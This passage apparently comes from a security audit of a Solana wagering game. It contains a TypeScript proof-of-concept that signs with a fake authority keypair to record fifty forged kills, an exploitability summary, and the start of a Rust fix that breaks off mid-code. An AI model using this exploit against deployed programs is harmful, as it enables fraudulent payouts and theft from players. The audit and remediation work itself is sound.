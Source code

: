 ```typescript
        const fakeAuthority = Keypair.generate();

        // Record fake kills to inflate attacker's performance
        for (let i = 0; i < 50; i++) {
            await this.wagerProgram.methods
                .recordKill(
                    sessionId,
                    0, // Attacker's team
                    this.attackerKeypair.publicKey, // Attacker as killer
                    1, // Enemy team
                    this.generateFakeVictim() // Fake victim
                )
                .accounts({
                    gameSession: this.getSessionPDA(sessionId),
                    gameServer: fakeAuthority.publicKey, // Unauthorized
                })
                .signers([fakeAuthority])
                .rpc();
        }

        // Attacker now has inflated kill count for pay2spawn earnings
    }
}
```

## ⚡ Exploitability Analysis

**Likelihood**: Certain (no authority checks present)
**Complexity**: Low (simple account substitution)
**Prerequisites**:
- Basic Solana development knowledge
- Ability to create fake signer accounts
- Understanding of instruction structure

**Attack Vectors**:
- [x] **Fake authority injection**
- [x] **Unauthorized winnings distribution**
- [x] **Game statistics manipulation**
- [x] **Session outcome control**

## 🔧 Remediation

### Recommended Fix
Implement proper authority verification with hardcoded legitimate authority checks.

### Code Patch
```rust
// FIXED CODE with proper authority verification
use anchor_lang::prelude::*;

// ✅ DEFINE LEGITIMATE AUTHORITY
declare_id!("GameAuth111111111111111111111111111111111111");
const GAME_SERVER_AUTHORITY: Pubkey = pubkey!("GameAuth111111111111111111111111111111111111");

#[derive(Accounts)]
pub struct SecureDistributeWinnings<'info> {
    #[account(mut)]
    pub game_session: Account<'info, GameSession>,

    // ✅ ENFORCE LEGITIMATE AUTHORITY
    #[account(
        constraint = game_server.key() == GAME_SERVER_AUTHORITY @ WagerError::UnauthorizedServer
```